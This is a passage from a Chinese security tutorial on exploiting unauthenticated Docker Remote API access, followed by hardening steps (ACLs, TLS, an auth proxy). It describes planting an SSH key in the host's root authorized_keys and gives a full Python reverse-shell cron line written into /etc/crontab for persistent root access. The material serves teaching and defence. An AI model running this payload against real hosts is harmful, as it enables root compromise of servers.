Docker remote Api 未授权访问的攻击原理与之前的 Redis 未授权访问漏洞大同小异，都是通过向运行该应用的服务器写文件，从而拿到服务器的权限，常见的利用方法如下:  

1、启动一个容器，挂载宿主机的/root/目录，之后将攻击者的ssh公钥~/.ssh/id_rsa.pub的内容写到入宿主机的/root/.ssh/authorized_keys文件中，之后就可以用root账户直接登录了   

2、启动一个容器，挂载宿主机的/etc/目录，之后将反弹shell的脚本写入到/etc/crontab中，攻击者会得到一个反弹的shell，其中反弹shell脚本的样例如下：  
```
echo -e "*/1 * * * * root /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"127.0.0.1\",8088));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n" >> /etc/crontab
```
第2种利用方法也可以挂载 var/spool/cron/目录，将反弹shell的脚本写入到/var/spool/cron/root（centos系统）或/var/spool/cron/crontabs/root(ubuntu系统)  

### 10.3 漏洞加固

1、在不必需的情况下，不要启用 docker 的 remote api 服务，如果必须使用的话，可以采用如下的加固方式：  

设置 ACL，仅允许信任的来源 IP 连接；  

设置 TLS 认证，官方的文档为 Protect the Docker daemon socket  
 
2、客户端连接时需要设置以下环境变量 export DOCKER_TLS_VERIFY=1  
```
export DOCKER_CERT_PATH=~/.docker
export DOCKER_HOST=tcp://10.10.10.10:2375
export DOCKER_API_VERSION=1.12
```
3、在 docker api 服务器前面加一个代理，例如 nginx，设置 401 认证  

附：Python未授权访问脚本    

此脚本未做测试，请根据自身需求，修改测试使用！  
   
    